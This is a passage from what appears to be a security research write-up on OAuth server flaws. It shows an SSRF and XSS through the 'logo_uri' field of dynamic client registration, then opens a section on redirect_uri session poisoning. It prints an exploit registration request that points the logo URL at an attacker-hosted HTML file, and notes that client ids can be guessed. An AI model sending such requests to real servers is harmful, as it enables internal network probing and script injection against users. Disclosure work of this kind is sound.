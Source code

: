This functionality may also be misused to perform a [Cross Site Scripting](https://portswigger.net/web-security/cross-site-scripting) attack, as the "getClientLogo" controller does not enforce any image "Content-Type" header, allowing the attacker to display arbitrary HTML content from their own URL. If this HTML contains JavaScript code, it will be executed within the authorization server domain.

### Exploit

We need to send a dynamic client registration request as described above. In this case, the bare minimum parameters we need to provide are "redirect_uri" and "logo_uri":

```
POST /openid-connect-server-webapp/register HTTP/1.1Host: local:8080Content-Length: 118Content-Type: application/json{  "redirect_uris": [    "http://artsploit.com/redirect"  ],  "logo_uri": "http://artsploit.com/xss.html"}
```

To initiate a server-to-server request to the specified "logo_uri": "http://artsploit.com/xss.html", a user should navigate the "/api/clients/{client.id}/logo" page:

![The page displays the output of the SSRF attack](https://portswigger.net/cms/images/c1/73/1768-article-oauth1.png)

A low-privileged account is required to access the last page. If an attacker is able to obtain one via registration, they can use this endpoint to make an arbitrary HTTP request to a local server and display its result.

Alternatively, this attack can be used against already authenticated users to perform [XSS](https://portswigger.net/web-security/cross-site-scripting) attacks, as it allows you to inject arbitrary JavaScript on the page. As shown on the example above, a malicious "logo_uri": "http://artsploit.com/xss.html" can be used to execute an "alert(document.domain)" function.

The {client.id} parameter is an incremental value associated with every new client that is registered with the OAuth server. It can be obtained after the client registration without any credentials. As one default client application already exists when the server is created, the first dynamically registered client will have the client_id "2".

As we can see from this exploit, OAuth servers may have second-order SSRF vulnerabilities in the registration endpoint as the spec explicitly states that a number of values may be provided by URL references. These vulnerabilities are subtle to find, but since the OAuth registration request format is standardized, it is still possible even in black-box scenarios.

## Chapter two: "redirect_uri" Session Poisoning

The next vulnerability we'll look at lies in the way the server carries over parameters during the authentication flow.

According to the OAuth specification (section 4.1.1 in [RFC6749](https://tools.ietf.org/html/rfc6749#section-4.1.1)), whenever the OAuth server receives the authorization request, it should "validate the request to ensure that all required parameters are present and valid. If the request is valid, the authorization server authenticates the resource owner and obtains an authorization decision (by asking the resource owner or by establishing approval via other means)"

Sounds simple, right? On almost all OAuth diagrams, this process is displayed as a single step, but it actually involves three separate actions that need to be implemented by the OAuth server:
